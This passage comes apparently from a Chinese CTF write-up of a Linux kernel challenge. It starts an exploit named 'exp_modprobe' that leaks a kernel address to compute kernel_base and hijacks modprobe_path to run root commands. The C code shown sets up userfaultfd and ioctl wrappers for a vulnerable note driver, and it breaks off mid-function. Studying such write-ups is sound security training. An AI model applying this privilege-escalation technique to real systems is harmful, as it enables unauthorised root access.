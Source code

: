 ```C
    return 0;
}
```

### exp_modprobe
当然，这样搜索太慢，也可以在第三步时，同时泄露`_copy_from_user`的地址来得到`kernel_base`，劫持`modprobe_path`，快速得到`flag`。需要注意，泄露得到的是地址偏移，需要再次计算。`modprobe_path`可以用来执行`root`权限命令，但直接**提权getshell**不行。


```C
#define _GNU_SOURCE
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <linux/userfaultfd.h>
#include <pthread.h>
#include <poll.h>
#include <unistd.h>
#include <assert.h>
#include <sys/syscall.h>
#include <sys/mman.h>
#include <sys/ioctl.h>
#include <sys/types.h>
#include <fcntl.h>
#include <sys/prctl.h>


struct noteReq{
    unsigned long index;
    unsigned long length;
    void* userptr;
};

int fd;

void add(void *ptr, int length){
    struct noteReq req;
    req.length = length;
    req.userptr = ptr;
    if(ioctl(fd, 0xFFFFFF00, &req) < 0){
        perror("add");
    }
}

void delete(){
    struct noteReq req;
    if(ioctl(fd, 0xFFFFFF03, &req) < 0){
        perror("delete");
    }
}

void edit(int index, void *ptr, int length){
    struct noteReq req;
    req.index = index;
    req.length = length;
    req.userptr = ptr;
    if(ioctl(fd, 0xFFFFFF01, &req) < 0){
        perror("edit");
    }
}

void show(int index, void *ptr){
    struct noteReq req;
    req.index = index;
```